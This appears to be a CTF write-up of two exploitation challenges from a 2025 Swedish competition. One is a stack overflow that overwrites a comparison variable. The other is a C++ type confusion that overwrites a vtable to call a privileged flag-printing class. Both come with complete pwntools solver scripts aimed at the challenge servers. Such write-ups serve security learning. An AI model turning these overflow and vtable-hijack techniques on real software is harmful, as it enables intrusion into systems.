




import PostFileDownload from "../../../components/PostFileDownload.astro";

## beep

> Kenneth verkar ha problem med kommunikationen till andra system han tagit över. Harriet har nämligen hittat något slags litet testprogram vars syfte verkar vara att testa att en anslutning fungerar.
>
> Testprogrammet verkar vara ganska minimalt, men även små program kan innehålla buggar...
>
> Anslut till `undutmaning-beep.chals.io:443` och testa anslutningen du också.
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> Harriet tror att det finns en buffer overflow i koden. Pröva att undersöka programmet med t.ex. `Ghidra` och `gdb` för att se ifall du kan knäcka buggen!
>
> </details>
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> `setup()`-funktionen kan ignoreras då den endast sätter en timer på utmaningen samt stänger av buffering på `stdin`/`stdout`/`stderr`.
>
> </details>

<PostFileDownload name="2025-undutmaning-beep.zip" />

A simple integer variable overwrite challenge, looking into the Ghidra disassembly, the code looked like this:

```c
undefined8 main(void)

{
  undefined local_78 [108];
  int local_c;

  setup();
  printf("* beeeeeeeeeeeeeeeeeeeeeeeeeeep *\n> ");
  read(0,local_78,0x108);
  if (local_c == 0x539) {
    system("cat flag");
  }
  return 0;
}
```

Simple goal, I had to overwrite the compared variable with `0x539`, and guess what it translates to 1337.





Pretty much, the solution required me to find the offset to the comparison instruction using cyclic offsets, so here was the final solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'beep')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'undutmaning-beep.chals.io'
port = int(args.PORT or 443)

def start_local(argv=[], *a, **kw):
	'''Execute the target binary locally'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
	'''Connect to the process on the remote host'''
	io = connect(host, port, ssl=True, sni=host)
	if args.GDB:
		gdb.attach(io, gdbscript=gdbscript)
	return io

def start(argv=[], *a, **kw):
	'''Start the exploit against the target.'''
	if args.LOCAL:
		return start_local(argv, *a, **kw)
	else:
		return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+59
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def exploit():
	io = start()

	OFFSET = 108

	payload = flat(
		cyclic(OFFSET),
		0x539
	)

	io.sendlineafter(b'> ', payload)

	io.interactive()

if __name__ == "__main__":
	exploit()

```

Here is an example of the challenge being solved locally (ignore it saying picoCTF that's just my template fake flag):



## Rocketlauncher

> Harriet har lyckats lokalisera en terminal via vilken hon kommer åt delar av Kenneths system. Där har hon inte bara kommit över källkod utan även listat ut att Kenneth använder systemet som terminalen styr till att bygga och skjuta upp rymdraketer.
>
> Anslut till `undutmaning-rocketlauncher.chals.io:443` för att avfyra raketer. Kan du få systemet att skjuta iväg en privilegierad raket?

<PostFileDownload name="2025-undutmaning-rocketlauncher.zip" />

```cpp
#include <signal.h>
#include <iostream>
#include <unistd.h>

#define BIG 1
#define SMALL 2

#define DIE(str) perror(str); exit(1);

using namespace std;

// Handler for when time is up
void alarmHandler(int pass) {
    cout << "TIMEOUT!" << endl;
    exit(1);
}

// Point to alarmHandler for SIGALRM and
// disable buffering on I/O
void setup() {
    struct sigaction act;
    act.sa_handler = alarmHandler;
    sigaction(SIGALRM, &act, NULL);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(60);
}

string part_names[8] = {"Main Engine", "Hull", "Booster", "Igniter", "Vertical Tail", "Payload", "Delta Wing", "Safety Hatch"};

typedef struct part {
    int width;
    int height;
} part;

class BaseRocket {
  public:
    int type;
	virtual void LaunchRocket() {}
};

#define BIG_ROCKET_NUM_PARTS 8
#define SMALL_ROCKET_NUM_PARTS 2

class BigRocket : public BaseRocket {
  public:
    part parts[BIG_ROCKET_NUM_PARTS];
    int type = BIG;

    BigRocket() {
        for (int i = 0; i < BIG_ROCKET_NUM_PARTS; i++) {
            this->parts[i].width = -1;
            this->parts[i].height = -1;
        }
    }

    void EditRocket() {
        for (int i = 0; i < BIG_ROCKET_NUM_PARTS; i++) {
            if (this->parts[i].width != -1) {
                cout << part_names[i] << " width (previously " << this->parts[i].width << ") = ";
            } else {
                cout << part_names[i] << " width = ";
            }
            cin >> this->parts[i].width;
            if (this->parts[i].height != -1) {
                cout << part_names[i] << " height (previously " << this->parts[i].height << ") = ";
            } else {
                cout << part_names[i] << " height = ";
            }
            cin >> this->parts[i].height;
        }
    }

    void LaunchRocket() {
        cout << "Vroooooooooooooom!" << endl;
        return;
    }
};

class SmallRocket : public BaseRocket {
  public:
    int type = SMALL;
    part parts[SMALL_ROCKET_NUM_PARTS];

    SmallRocket() {
        for (int i = 0; i < SMALL_ROCKET_NUM_PARTS; i++) {
            this->parts[i].width = -1;
            this->parts[i].height = -1;
        }
    }

    void EditRocket() {
        for (int i = 0; i < SMALL_ROCKET_NUM_PARTS; i++) {
            if (this->parts[i].width != -1) {
                cout << part_names[i] << " width (previously " << this->parts[i].width << ") = ";
            } else {
                cout << part_names[i] << " width = ";
            }
            cin >> this->parts[i].width;
            if (this->parts[i].height != -1) {
                cout << part_names[i] << " height (previously " << this->parts[i].height << ") = ";
            } else {
                cout << part_names[i] << " height = ";
            }
            cin >> this->parts[i].height;
        }
    }

    void LaunchRocket() {
        cout << "Zooooooooooooooom!" << endl;
        return;
    }
};

class PrivilegedRocket : public BaseRocket {
  public:
    void LaunchRocket() {
        cout << "Wooooooooooow!" << endl;
        system("cat flag");
        return;
    }
};

void print_menu(){
cout << R"EOF(
1) Build rocket
2) Rebuild rocket
3) Launch rocket
4) Sign out)EOF" << endl;
}

#define MAX_ROCKETS 10
BaseRocket* Rockets[MAX_ROCKETS];

void list(int type) {
    switch (type){
        case BIG:
            cout << "Big rockets:" << endl;
            break;
        case SMALL:
            cout << "Small rockets:" << endl;
            break;
    }
    for (int i = 0; i < MAX_ROCKETS; i++) {
        switch (type){
            case BIG:
                if (Rockets[i] && dynamic_cast<BigRocket *>(Rockets[i]) != nullptr) {
                    cout << "  [" << i << "]" << endl;
                }
                break;
            case SMALL:
                if (Rockets[i] && dynamic_cast<SmallRocket *>(Rockets[i]) != nullptr) {
                    cout << "  [" << i << "]" << endl;
                }
                break;
        }
    }
}

int get_free_slot() {
    for (int i = 0; i < MAX_ROCKETS; i++) {
        if (Rockets[i] == 0) return i;
    }
    return -1;
}

void add() {
    int idx = get_free_slot();
    if (idx == -1) {
        cout << "no free slots!" << endl;
        return;
    }
    do {
        string size;
        cout << "big or small > ";
        cin >> size;
        if ( !size.compare("big") ) {
            BigRocket * r = new BigRocket();
            r->EditRocket();
            Rockets[idx] = r;
            break;
        }
        else if ( !size.compare("small") ) {
            SmallRocket * r = new SmallRocket();
            r->EditRocket();
            Rockets[idx] = r;
            break;
        }
    } while (true);

}

int get_rocket_idx(){
    int idx;
    cout << "Rocket index > ";
    cin >> idx;

    if (idx < 0 || idx >= MAX_ROCKETS) {
        cout << "Invalid index" << endl;
        return -1;
    }

    if (Rockets[idx] == 0) {
        cout << "No such rocket" << endl;
        return -1;
    }
    return idx;
}

void edit() {
    int idx;
    int type;
    string size;

    do {
        cout << "big or small > ";
        cin >> size;
        if ( !size.compare("big") ) {
            type=BIG;
            break;
        }
        else if ( !size.compare("small") ) {
            type=SMALL;
            break;
        }
    } while (true);

    list(type);

    if ( (idx = get_rocket_idx()) == -1 ) {
        return;
    }

    if (type == BIG){
            BigRocket * r = static_cast<BigRocket*>(Rockets[idx]);
            r->EditRocket();
    } else if (type == SMALL) {
            SmallRocket * r = static_cast<SmallRocket*>(Rockets[idx]);
            r->EditRocket();
    }

}

void launch() {
    int idx;
    if ( (idx = get_rocket_idx()) == -1 ) {
        return;
    }

    cout << "\n ** LAUNCH IMMINENT ** \n" << endl;
    sleep(1);
    Rockets[idx]->LaunchRocket();
    sleep(1);
    cout << "\n ** LAUNCH COMPLETE ** \n" << endl;
    sleep(1);
    delete Rockets[idx];
    Rockets[idx] = nullptr;
}


int main() {
    int choice;
    setup();
    PrivilegedRocket * Hmmmmmmmmmmmmmm = new PrivilegedRocket();

    while (choice != 4)  {
        list(SMALL);
        list(BIG);
        print_menu();
        cout << "> ";
        cin >> choice;
        switch (choice) {
            case 1:
                add();
                break;
            case 2:
                edit();
                break;
            case 3:
                launch();
                break;
            default:
                cout << "\nBye!\n" << endl;
                return 0;
        }
    }
}

```

A C++ heap exploitation challenge using heap overflows(?), theres a few important things to note in here. This is a program where you build Rockets by inputting numbers. The end goal is launching the Rocket, which calls a function based on the class of the rocket.

There's two rockets: Big and Small, but theres an unused Privileged Rocket class which is the end goal.

```cpp
class PrivilegedRocket : public BaseRocket {
  public:
    void LaunchRocket() {
        cout << "Wooooooooooow!" << endl;
        system("cat flag");
        return;
    }
};
```

The way you make rockets is by inputting numbers, here is an example of me making a small rocket, and rebuilding the small rocket as a.... BIG ROCKET?? Yes, that is the vulnerability, you can trick the program into editing your small rocket as a big rocket, overflowing into certain parts of the heap usually inaccessible.

```
Small rockets:
Big rockets:
  [0]

1) Build rocket
2) Rebuild rocket
3) Launch rocket
4) Sign out
> 1
big or small > small
Main Engine width = 12
Main Engine height = 12
Hull width = 12
Hull height = 12
Small rockets:
  [1]
Big rockets:
  [0]

1) Build rocket
2) Rebuild rocket
3) Launch rocket
4) Sign out
> 2
big or small > big
Big rockets:
  [0]
Rocket index > 1
Main Engine width (previously 2) = 12
Main Engine height (previously 12) = 12
Hull width (previously 12) = 12
Hull height (previously 12) = 12
Booster width (previously 12) = 12
Booster height (previously 0) = 12
Igniter width (previously 0) = 12
Igniter height (previously 60593) = 12
Vertical Tail width (previously 0) = 12
Vertical Tail height (previously 0) = 12
Payload width (previously 0) = 12
Payload height (previously 0) = 12
Delta Wing width (previously 0) = 12
Delta Wing height (previously 0) = 12
Safety Hatch width (previously 0) = 12
Safety Hatch height (previously 0) = 12
Small rockets:
  [1]
Big rockets:
  [0]
```

If you see the weird number (60593) I swear I did not write that! So the plan looks like this:

1. I make a small rocket
2. I make a big rocket
3. I edit the small rocket as a big rocket
4. Overwrite the big rocket data in the process
5. Launch the rocket

This means we can edit the vtable of the class of the big rocket, to launch as the privileged rocket, as seen by this screenshot:



Here is the solver script with descriptions:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'rocketlauncher')
context.terminal = ['tmux', 'splitw', '-h']
# context.log_level = 'debug'

host = args.HOST or 'undutmaning-rocketlauncher.chals.io'
port = int(args.PORT or 443)

def start_local(argv=[], *a, **kw):
	'''Execute the target binary locally'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
	'''Connect to the process on the remote host'''
	io = connect(host, port, ssl=True, sni=host)
	if args.GDB:
		gdb.attach(io, gdbscript=gdbscript)
	return io

def start(argv=[], *a, **kw):
	'''Start the exploit against the target.'''
	if args.LOCAL:
		return start_local(argv, *a, **kw)
	else:
		return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def exploit():
	global io
	io = start()

	# Build small rocket
	io.sendlineafter(b'> ', b'1')
	io.sendlineafter(b'> ', b'small')
	for _ in range(4):
		io.sendlineafter(b'= ', b'10')

	# Build big rocket
	io.sendlineafter(b'> ', b'1')
	io.sendlineafter(b'> ', b'big')
	for _ in range(16):
		io.sendlineafter(b'= ', b'11')

	# Edit to big rocket
	io.sendlineafter(b'> ', b'2')
	io.sendlineafter(b'> ', b'big')
	io.sendlineafter(b'> ', b'0')
	for i in range(16):
		io.recvuntil(b'previously ')
		prev = io.recvuntil(b')', drop=True)
		success(f'{i} prev: {prev}')
		if (i == 9):
			prev = int(prev.decode()) + 0x00105bc0 - 0x00105bf0 # add privileged, subtract bigrocket
			prev = str(prev).encode()
			success(f'prev privileged: {prev}')
		io.sendlineafter(b'= ', prev)

	io.sendlineafter(b'> ', b'3')
	io.sendlineafter(b'> ', b'1')
	io.interactive()

if __name__ == "__main__":
	exploit()

```

The script parses each time the program says "previously" and i edited everytime it returned the vtable and edited it by learning offsets from Ghidra. Launch the rocket and get a flag! Btw I solved it in a local environment because I forgot to screenshot my real solve :()


